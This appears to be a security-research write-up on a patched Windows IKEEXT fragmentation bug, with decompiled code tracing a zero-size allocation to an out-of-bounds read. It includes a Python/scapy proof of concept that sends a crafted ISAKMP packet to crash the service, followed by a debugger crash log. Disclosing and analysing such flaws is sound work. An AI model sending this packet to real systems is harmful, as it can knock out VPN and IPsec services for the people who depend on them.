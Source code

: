 # Introduction

---

The 3 vulnerabilities related to IKE Extension was patched on Patch Tuesday in September 2022.

One of the vulnerabilities was found during IKE related research, which was patched by Yuki Chen.

# Root Cause Analysis

---

This vulnerability occurs when processing `Fragmentation Payload` inside the `IkeHandlePayloadFrag` function.

```cpp
__int64 __fastcall IkeHandlePayloadFrag(__int64 a1, __int64 a2)
{
  LPVOID TlsData; // rax
  __int64 v5; // rbx
  __int64 *v6; // rax
  __int64 v7; // r9
  __int64 v8; // rbx
  __int64 v10; // [rsp+50h] [rbp+18h] BYREF

  v10 = 0i64;
  if...
  v8 = IkeProcessFrag((struct_lpMem *)a1, &v10, (struct_SA *)a2);
  if ( v8 || (v8 = IkePostPayloadProcessFrag(a2, v10, a1)) != 0 )
    WfpReportError(v8, "IkeHandlePayloadFrag");
  return v8;
}
```

In `IkeProcessFrag` function, `FragEntry` is created and `Frag` is inserted to `FragEntry` by `IkePostPayloadProcessFrag` function.

If last `Frag` is inserted in `IkeInsertFragEntry` function, `IkeReinjectReassembledPacket` function is called.

```cpp
__int64 __fastcall IkeInsertFragEntry(__int64 a1, __int64 a2, __int64 a3, __int128 *a4, __int64 a5)
{
	...
	...
    if ( (unsigned int)IsFullPacket((_QWORD *)a3, a5) )
      IkeReinjectReassembledPacket((__int64 **)a3, a2, a4, a5);
    return v7;
  ...
	...
}
```

In this function, all `Frag` in `FragEntry` are merged to one buffer and then call `IkeQueueRecvRequest` function.

```cpp
__int64 __fastcall IkeReinjectReassembledPacket(__int64 **a1, __int64 a2, __int128 *a3, __int64 a4)
{
	...
	... 
   while ( v22 != (__int64 *)a1 )
    {
      v9 = WfpUINT32Add(v8, *((_DWORD *)v22 + 6), &v35);
      if ( v9 )
        goto LABEL_9;
      memcpy_0(&v23[v8], (const void *)v22[4], *((unsigned int *)v22 + 6));
      v8 += *((_DWORD *)v22 + 6);
      v22 = (__int64 *)*v22;
    }
	...
	...
    v9 = IkeQueueRecvRequest((struct_lpMem *)v27, 1);
	...
	...
}
```

In `IkeQueueRecvRequest` function, the vulnerability occurs in processing the merged buffer.

```cpp
__int64 __fastcall IkeQueueRecvRequest(struct_lpMem *a1, int a2)
{
	...
	...

		p_buffer = &v5->buffer;
		...
		...
    v4 = WfpMemAlloc(*(unsigned int *)a1->bufferSize, 0, &v5->buffer); ----> [1]
    if ( !v4 )
    {
			if ( v13 == htons(0x1F4u) || a2 )
      {
        memcpy_0(*p_buffer, a1->buffer, *(unsigned int *)a1->bufferSize); ---->[2]
      }
      else
      {
        memcpy_0(*p_buffer, &a1->buffer->initiator_spi_4, (unsigned int)(*(_DWORD *)a1->bufferSize - 4));
        *(_DWORD *)v5->bufferSize -= 4;
      }
      v7 = *(_QWORD *)&(*p_buffer)->next_payload;   -------------------------->[3]
      length = (*p_buffer)->length;
      *(_OWORD *)v15 = *(_OWORD *)&(*p_buffer)->initiator_spi_0;
      LODWORD(v15[3]) = length;
			...
			...
		}
	...
	...
}
```

In [1], it allocates memory in &v5->buffer , which the size is buffer’s size by WfpMemAlloc function.

In [2], it copies merged buffer to buffer which is allocated in [1]

In [3], it accesses data from the buffer which is made by [1] and [2]

The vulnerability occurs in [1] because there is no verification of the small size.

After we allocate memory to 0 sized at [1], the vulnerability occurs while accessing more memory than the allocated size at [3].

# PoC

---

To trigger this vulnerability, page heap of svchost.exe(IKEEXT service) must be enabled.

```python
from scapy.all import *
from scapy.contrib.ikev2 import *
from scapy.layers.isakmp import *
import socket, time

target = ("192.168.159.134", 500)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

pkt = ISAKMP(init_cookie=RandString(8), next_payload=0x84, exch_type=0xf3)
pkt /= ISAKMP_payload(next_payload=0x1, load=b"\x00\x00\x01\x7f")

sock.sendto(raw(pkt), target)
```

[poc.mp4](src/poc.mp4)

# Crash Log

---

```cpp
(128.414): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
ikeext!IkeQueueRecvRequest+0x158:
00007ffb`9e48d138 0f1000          movups  xmm0,xmmword ptr [rax] ds:0000017a`08459000=????????????????????????????????

0:005> r
rax=0000017a08459000 rbx=0000000000000000 rcx=00000008905fef70
rdx=ffffffffffffc000 rsi=00000008905feff0 rdi=0000017a08456f10
rip=00007ffb9e48d138 rsp=00000008905fef30 rbp=00000008905fefa0
 r8=0000000000000000  r9=0000000000000000 r10=0000017a08459000
r11=0000017a08459000 r12=0000000000000000 r13=0000017a0843cb80
r14=0000017a08456f20 r15=0000000000000001
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
ikeext!IkeQueueRecvRequest+0x158:
00007ffb`9e48d138 0f1000          movups  xmm0,xmmword ptr [rax] ds:0000017a`08459000=????????????????????????????????

0:005> !heap -p -a @rax
    address 0000017a08459000 found in
    _DPH_HEAP_ROOT @ 17a08281000
    in busy allocation (  DPH_HEAP_BLOCK:         UserAddr         UserSize -         VirtAddr         VirtSize)
                             17a08285a28:      17a08459000                0 -      17a08458000             2000
ReadMemory error for address 0000017a08459000
    00007ffbc8177e7f ntdll!RtlDebugAllocateHeap+0x000000000000003f
    00007ffbc811e1fa ntdll!RtlpAllocateHeap+0x000000000009c70a
    00007ffbc807fcad ntdll!RtlpAllocateHeapInternal+0x000000000000098d
    00007ffb9e486910 ikeext!WfpMemAlloc+0x0000000000000020
    00007ffb9e48d0ce ikeext!IkeQueueRecvRequest+0x00000000000000ee
    00007ffb9e4f1c0d ikeext!IkeReinjectReassembledPacket+0x0000000000000181
    00007ffb9e4f17ed ikeext!IkeInsertFragEntry+0x0000000000000259
    00007ffb9e4f1865 ikeext!IkePostPayloadProcessFrag+0x0000000000000031
    00007ffb9e4f1564 ikeext!IkeHandlePayloadFrag+0x00000000000000ac
    00007ffb9e507652 ikeext!IkeHandleMMPacketDispatchAuthip+0x000000000000005e
    00007ffb9e4ead86 ikeext!IkeProcessPacket+0x00000000000002f2
    00007ffb9e47fc84 ikeext!IkeProcessPacketDispatch+0x0000000000000fd4
    00007ffb9e47bb9c ikeext!IkeHandleRecvRequest+0x000000000000000c
    00007ffbc809e7e9 ntdll!TppSimplepExecuteCallback+0x0000000000000099
    00007ffbc8086964 ntdll!TppWorkerThread+0x0000000000000644
    00007ffbc7cc7974 KERNEL32!BaseThreadInitThunk+0x0000000000000014
    00007ffbc80ca2f1 ntdll!RtlUserThreadStart+0x0000000000000021

 
0:005> dq @rax
0000017a`08459000  ????????`???????? ????????`????????
0000017a`08459010  ????????`???????? ????????`????????
0000017a`08459020  ????????`???????? ????????`????????
0000017a`08459030  ????????`???????? ????????`????????
0000017a`08459040  ????????`???????? ????????`????????
0000017a`08459050  ????????`???????? ????????`????????
0000017a`08459060  ????????`???????? ????????`????????
0000017a`08459070  ????????`???????? ????????`????????

0:005> k
 # Child-SP          RetAddr               Call Site
00 00000008`905fef30 00007ffb`9e4f1c0d     ikeext!IkeQueueRecvRequest+0x158
01 00000008`905fefd0 00007ffb`9e4f17ed     ikeext!IkeReinjectReassembledPacket+0x181
02 00000008`905ff110 00007ffb`9e4f1865     ikeext!IkeInsertFragEntry+0x259
03 00000008`905ff180 00007ffb`9e4f1564     ikeext!IkePostPayloadProcessFrag+0x31
04 00000008`905ff1c0 00007ffb`9e507652     ikeext!IkeHandlePayloadFrag+0xac
05 00000008`905ff200 00007ffb`9e4ead86     ikeext!IkeHandleMMPacketDispatchAuthip+0x5e
06 00000008`905ff230 00007ffb`9e47fc84     ikeext!IkeProcessPacket+0x2f2
07 00000008`905ff2f0 00007ffb`9e47bb9c     ikeext!IkeProcessPacketDispatch+0xfd4
08 00000008`905ff850 00007ffb`c809e7e9     ikeext!IkeHandleRecvRequest+0xc
09 00000008`905ff880 00007ffb`c8086964     ntdll!TppSimplepExecuteCallback+0x99
0a 00000008`905ff8d0 00007ffb`c7cc7974     ntdll!TppWorkerThread+0x644
0b 00000008`905ffbc0 00007ffb`c80ca2f1     KERNEL32!BaseThreadInitThunk+0x14
0c 00000008`905ffbf0 00000000`00000000     ntdll!RtlUserThreadStart+0x21
```

78ResearchLab(https://www.78researchlab.com) performs Vulnerability Research not only Windows/Linux, but also browsers, various applications, Mobile, Embedded Devices and Web3. If you would like to collaborate or enjoy your research together, please contact us at contact@78researchlab.com.

Thank you.

